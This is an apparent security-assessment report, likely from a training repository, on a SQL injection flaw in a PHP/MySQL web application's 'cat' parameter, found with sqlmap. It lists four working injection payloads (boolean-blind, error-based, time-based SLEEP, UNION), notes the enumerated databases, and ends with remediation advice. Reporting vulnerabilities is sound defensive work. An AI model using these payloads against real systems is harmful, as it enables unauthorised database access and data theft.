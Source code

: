 # codetech-it-solution
# SQL Injection Vulnerability Report

## Overview

This document reports a SQL Injection vulnerability identified within a web application. The vulnerability was discovered using sqlmap, an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over database servers.

## Vulnerability Details

- **Injection Point:** HTTP GET parameter `cat`
- **Injection Type(s):**
  - Boolean-based blind
  - Error-based
  - Time-based blind
  - UNION query
- **Affected System:** Web application
- **Web Server Operating System:** Linux Ubuntu
- **Web Application Technology:** PHP 5.6.40, Nginx 1.19.0
- **Back-end DBMS:** MySQL >= 5.6

## Injection Points and Payloads

1. **Boolean-Based Blind**
   - Payload: `cat=1 AND 3131=3131`

2. **Error-Based**
   - Payload: `cat=1 AND GTID_SUBSET(CONCAT(0x71627a7a71,(SELECT (ELT(2030=2030,1))),0x716a766271),2030)`

3. **Time-Based Blind**
   - Payload: `cat=1 AND (SELECT 8897 FROM (SELECT(SLEEP(5)))fgal)`

4. **UNION Query**
   - Payload: `cat=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71627a7a71,0x5652584366446a534e787444574e44695363764c6848636b774a4748595a63496f576969634e4770,0x716a766271),NULL,NULL,NULL,NULL-- -`

## Database Details

- **Available Databases:** acuart, information_schema
- **Information Schema Tables:** 79 tables including `ADMINISTRABLE_ROLE_AUTHORIZATIONS`, `APPLICABLE_ROLES`, `CHARACTER_SETS`, etc.
- **Table 'FILES':** 38 columns including `AUTOEXTEND_SIZE`, `AVG_ROW_LENGTH`, `CHECKSUM`, etc.

## Recommendations

1. **Parameter Sanitization:** Ensure all user-supplied data is correctly sanitized to prevent the execution of unintended SQL commands.
2. **Prepared Statements:** Use prepared statements with parameterized queries to ensure SQL code and data are separated.
3. **Error Handling:** Configure proper error handling to prevent detailed error messages from being sent to the client, which can be utilized for malicious purposes.
4. **Security Patching:** Regularly update the web application framework, PHP version, and any plugins to protect against known vulnerabilities.
5. **Security Testing:** Perform regular security assessments and penetration testing to identify and mitigate vulnerabilities.

## Conclusion

This report highlights a critical SQL Injection vulnerability that requires immediate attention. Addressing this vulnerability is essential for maintaining the integrity, confidentiality, and availability of the application's data. Implementing the recommendations provided herein will significantly reduce the risk associated with this vulnerability.
